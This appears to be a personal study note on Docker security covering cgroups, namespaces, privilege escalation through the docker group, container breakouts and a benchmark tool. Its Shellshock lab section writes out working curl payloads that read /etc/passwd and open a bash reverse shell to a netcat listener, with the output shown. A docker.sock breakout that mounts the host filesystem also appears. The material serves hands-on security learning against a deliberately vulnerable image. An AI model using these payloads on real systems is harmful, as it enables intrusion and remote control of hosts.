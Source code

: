 Cgroups
	allows to limit processes and containers access to system resources like cpu, memory, iops and network

	find container cgroups
	
```

docker run -itd --name test alpine

docker inspect container name | grep {Id}
find /sys/fs/cgroup/ -name {container id}


# check how many processes can be created 
cd /sys/fs/cgroup/pids/docker/{containerid} 

cat pids.max 
max # max number of processes can be created

# create limits
docker run -itd --name test --pids-limit 6 alpine

cat pids.max
6

[root@centos0 spothi]# docker exec -it test sh
/ # sleep 5 & sleep 5 & sleep 5 & sleep 5 # 5 parallel processes
[3]+  Done                       sleep 5
[2]+  Done                       sleep 5
[1]+  Done                       sleep 5
/ # sleep 5 & sleep 5 & sleep 5 & sleep 5 & sleep 5
sh: can't fork: Resource temporarily unavailable # 6 parallel processes
/ #
```

## Namespaces
	Linux kernel features
	docker uses namespaces concept to isolate container from host
![](https://i.imgur.com/TRefoca.png)


## Shell shock vulnerability
```
docker run --rm -it -p 8080:80 vulnerables/cve-2014-6271

curl http://192.168.20.30:8080
<html>
    <head><title>Vulnerables | ShellShock</title></head>
    <body>
        <h1>This image is vulnerable to ShellShock, please exploit it</h1>
        <pre>The script is at /cgi-bin/vulnerable</pre>
    </body>
</html>

# get passwd file from the host
curl -H "user-agent: () { :;}; echo; echo; /bin/bash -c 'cat /etc/passwd'" http://192.168.20.30:8080/cgi-bin/vulnerable

root:x:0:0:root:/root:/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/bin/sh
bin:x:2:2:bin:/bin:/bin/sh
sys:x:3:3:sys:/dev:/bin/sh
sync:x:4:65534:sync:/bin:/bin/sync
games:x:5:60:games:/usr/games:/bin/sh
man:x:6:12:man:/var/cache/man:/bin/sh
lp:x:7:7:lp:/var/spool/lpd:/bin/sh
mail:x:8:8:mail:/var/mail:/bin/sh
news:x:9:9:news:/var/spool/news:/bin/sh
uucp:x:10:10:uucp:/var/spool/uucp:/bin/sh
proxy:x:13:13:proxy:/bin:/bin/sh
www-data:x:33:33:www-data:/var/www:/bin/sh
backup:x:34:34:backup:/var/backups:/bin/sh
list:x:38:38:Mailing List Manager:/var/list:/bin/sh
irc:x:39:39:ircd:/var/run/ircd:/bin/sh
gnats:x:41:41:Gnats Bug-Reporting System (admin):/var/lib/gnats:/bin/sh
nobody:x:65534:65534:nobody:/nonexistent:/bin/sh
libuuid:x:100:101::/var/lib/libuuid:/bin/sh

# reverse shell

# start netcat listner
nc -lvp 4444 # could be on the same or different machine

curl -H "user-agent: () { :;}; echo; echo; /bin/bash -i >& /dev/tcp/192.168.20.30/4444 0>&1" http://192.168.20.30:8080/cgi-bin/vulnerable


nc -lvp 4444
Ncat: Version 7.70 ( https://nmap.org/ncat )
Ncat: Listening on :::4444
Ncat: Listening on 0.0.0.0:4444
Ncat: Connection from 172.17.0.4.
Ncat: Connection from 172.17.0.4:59050.
www-data@3a9ce64e8ac1:/usr/lib/cgi-bin$ # got reverse shell


# check where you are 
# if container it would look something similar like the following
cat /proc/self/cgroup
12:rdma:/docker/3a9ce64e8ac169bda16d97884497cd4af89151aa4362c7fc6252b82c54e084c2
11:freezer:/docker/3a9ce64e8ac169bda16d97884497cd4af89151aa4362c7fc6252b82c54e084c2
10:perf_event:/docker/3a9ce64e8ac169bda16d97884497cd4af89151aa4362c7fc6252b82c54e084c2
9:devices:/docker/3a9ce64e8ac169bda16d97884497cd4af89151aa4362c7fc6252b82c54e084c2
8:memory:/docker/3a9ce64e8ac169bda16d97884497cd4af89151aa4362c7fc6252b82c54e084c2
7:blkio:/docker/3a9ce64e8ac169bda16d97884497cd4af89151aa4362c7fc6252b82c54e084c2
6:net_cls,net_prio:/docker/3a9ce64e8ac169bda16d97884497cd4af89151aa4362c7fc6252b82c54e084c2
5:pids:/docker/3a9ce64e8ac169bda16d97884497cd4af89151aa4362c7fc6252b82c54e084c2
4:cpuset:/docker/3a9ce64e8ac169bda16d97884497cd4af89151aa4362c7fc6252b82c54e084c2
3:hugetlb:/docker/3a9ce64e8ac169bda16d97884497cd4af89151aa4362c7fc6252b82c54e084c2
2:cpu,cpuacct:/docker/3a9ce64e8ac169bda16d97884497cd4af89151aa4362c7fc6252b82c54e084c2
1:name=systemd:/docker/3a9ce64e8ac169bda16d97884497cd4af89151aa4362c7fc6252b82c54e084c2


```


## Privilege Escalation using volume mounts

User is not root user but part of docker group
![](https://i.imgur.com/wENtmYj.png)

the shell script escalates the permission![](https://i.imgur.com/mo5swmd.png)

its part of root group now

## Container breakouts
Get out of the containers
- old installations of docker
- container over priviledged - CAP_SYS_ADMIN, CAP_SYS_MODULE
- container mounting /var/run/docker.sock

```
docker run -itd --name sock -v /var/run/docker.sock:/var/run/docker.soc alpine

docker run -itd --name sock -v /var/run/docker.sock:/var/run/docker.sock alpine
5db014e2b62b357e229375d75af3d65815704a20ec8480c19c0cb5bbe5168eda
[root@centos0 spothi]# docker exec -it sock sh
/ # ls /var/run/docker.sock
/var/run/docker.sock

/ # apk update
/ # apk add -u docker
/ # docker -H unix://var/run/docker.sock run -it -v /:/test:ro -t alpine sh # mounting host system root dir to /test
/ # ls /test
bin    dev    home   lib64  mnt    proc   run    srv    tmp    var
boot   etc    lib    media  opt    root   sbin   sys    usr
/ # cat /test/etc/passwd
root:x:0:0:root:/root:/bin/bash
bin:x:1:1:bin:/bin:/sbin/nologin
```

## Privileged containers
```
docker run -itd -name privi --priviledged alpine
docker exec -it privi sh
apk add -U libcap
capsh --print # get a list of all capabilities for that container

```

https://github.com/docker/docker-bench-security - Checks for best practices on host side config
```
git clone https://github.com/docker/docker-bench-security.git
cd docker-bench-security
sudo sh docker-bench-security.sh


docker run --rm --net host --pid host --userns host --cap-add audit_control \
    -e DOCKER_CONTENT_TRUST=$DOCKER_CONTENT_TRUST \
    -v /etc:/etc:ro \
    -v /usr/bin/containerd:/usr/bin/containerd:ro \
    -v /usr/bin/runc:/usr/bin/runc:ro \
    -v /usr/lib/systemd:/usr/lib/systemd:ro \
    -v /var/lib:/var/lib:ro \
    -v /var/run/docker.sock:/var/run/docker.sock:ro \
    --label docker_bench_security \
    docker/docker-bench-security
```